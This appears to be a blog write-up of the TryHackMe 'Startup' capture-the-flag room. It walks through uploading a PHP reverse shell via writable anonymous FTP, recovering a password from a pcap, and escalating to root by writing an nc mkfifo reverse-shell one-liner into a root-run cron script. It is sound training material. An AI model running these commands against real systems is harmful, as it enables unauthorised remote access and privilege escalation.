




# Startup
**Date:** October 22nd 2022

**Author:** j.info

**Link:** [**Startup**](https://tryhackme.com/room/startup) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- What is the secret spicy soup recipe?
- What are the contents of user.txt?
- What are the contents of root.txt?

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.6.0.242
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 808]
/files                (Status: 200) [Size: 1331]
```

<br>

## FTP Site Digging

I login as anonymous and take a look at the files on the server:

```
ftp> ls -al
229 Entering Extended Passive Mode (|||24694|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

There isn't anything in the ftp directory but we do have write permissions to it so that may come in handy.

The notice.txt file:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

Looking at important.jpg:


<br>

## Website Digging

Visiting the main page:



Nothing interesting in the view source of the page.

Looking at /files from the gobuster output shows us the same files from the ftp server, so we should be able to upload a reverse .php shell:



I ftp back over to the site and upload the pentestmonkey php reverse shell to the /ftp directory and then setup a listener on my system.



<br>

## System Access

I click the p.php file in the browser and get a shell back:

```
listening on [any] 4444 ...
connect to [10.6.0.242] from (UNKNOWN) [10.10.172.52] 40348
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:54:24 up 37 min,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1196): Inappropriate ioctl for device
bash: no job control in this shell
www-data@startup:/$ whoami
whoami
www-data
www-data@startup:/$ hostname
hostname
startup
```

And quickly fix my shell:

```
www-data@startup:/$ which python3
which python3
/usr/bin/python3
www-data@startup:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'      
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@startup:/$ export TERM=xterm-256color
```

<br>

## System Enumeration

We find the answer to the secret spicy soup recipe in the recipe.txt file in the directory we land in:

```
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was <REDACTED>.
```

I check `sudo -l` and it requires a password.

Checking `getcap -r / 2>/dev/null` shows no interesting capabilities.

Other users on the system:

```
root:x:0:0:root:/root:/bin/bash
vagrant:x:1000:1000:,,,:/home/vagrant:/bin/bash
lennie:x:1002:1002::/home/lennie:
ftpsecure:x:1003:1003::/home/ftpsecure:
```

Of those users lennie is the only one with a directory in /home.

I check for SUID files with `find / -perm /4000 2>/dev/null` and don't see anything out of the ordinary.

I check out the web directory at /var/www/html and don't see anything we didn't already see.

Looking around the file system more I find the /incidents directory and inside it is a pcapng file.

I start up a simple python http server and download it to my home system so I can open it up with Wireshark:

```
www-data@startup:/incidents$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ...
10.6.0.242 - - [22/Oct/2022 16:16:05] "GET /suspicious.pcapng HTTP/1.1" 200 -
```

Opening the file up in Wireshark and looking through the TCP streams we see somebody:

```
GET /files/ftp/shell.php HTTP/1.1
```

Definitely suspicious. On stream 7 we see commands being entered in the shell:

```
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: <REDACTED>
```

So the user tried to sudo -l and enter a password, but they're also trying to change over to the lennie directory. Maybe this is the password for the user lennie? I try and switch user over to him:

```
www-data@startup:/incidents$ su lennie
Password: 
lennie@startup:/incidents$ whoami
lennie
```

Alright we've moved over to another user, let's see what we can find with them.

In their home direcotry we find the user.txt flag:

`wc -c /home/lennie/user.txt`

```
38 /home/lennie/user.txt
```

Checking `sudo -l` shows we don't have anything we can run as root.

In their home directory we see a Documents directory with the following files:

```
-rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
-rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
```

concern.txt

```
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
```

list.txt

```
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
```

note.txt

```
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
```

We also see a scripts directory in the lennie home directory with the following files:

```
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Oct 22 17:14 startup_list.txt
```

The start_list.txt is blank but planner.sh has the following:

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

Looking at print.sh shows us that it's owned and writeable by our user, and it gets called by root, but we can't just run planner.sh because we don't have access to write to the startup_list.txt file and the echo command will give an error because of that.

Looking at /etc/print.sh:

```
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

```
#!/bin/bash
echo "Done!"
```

There is clearly something we need to do with this so I check to see if there are hidden cron jobs running with pspy after uploading the binary to the /tmp directory and making it executable:

`pspy64`

```
2022/10/22 17:42:01 CMD: UID=0    PID=20258  | /bin/bash /home/lennie/scripts/planner.sh
2022/10/22 17:43:01 CMD: UID=0    PID=20276  | /bin/bash /home/lennie/scripts/planner.sh
```

Sure enough once a minute a cron job runs that planner.sh. So we should be able to pur a reverse shell in our /etc/print.sh and have it connect back to us as root.

<br>

## Root

I run the following to put a standard nc mkfifo reverse shell into our /etc/print.sh file and set a listener up on my system to catch it:

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.0.242 4444 >/tmp/f" > /etc/print.sh`

```
listening on [any] 4444 ...
connect to [10.6.0.242] from (UNKNOWN) [10.10.172.52] 40396
bash: cannot set terminal process group (20369): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~#
```

And we have root!

Looking in the root directory shows us the root.txt flag:

`wc -c /root/root.txt`

```
38 /root/root.txt
```

<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding an FTP server that allows **anonymous login** and has a **writeable directory**
- Seeing a **/files** directory on our gobuster scan and when navigating to it with a web browser we have the same files as the ftp
- Uploading a **php reverse shell** to the writeable ftp directory and then accessing it for an initial foothold on the system
- Fiding a **.pcapng** file on the system and using **Wireshark** to comb through it and find credentials for another user
- Using **pspy** to find that a script is run once a minute as root, and we can modify another script it calls
- Adding a **nc mkfifo reverse shell** to that script and catching the shell to escalate to root

<br>

Many thanks to:
- [**elbee**](https://tryhackme.com/p/elbee) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)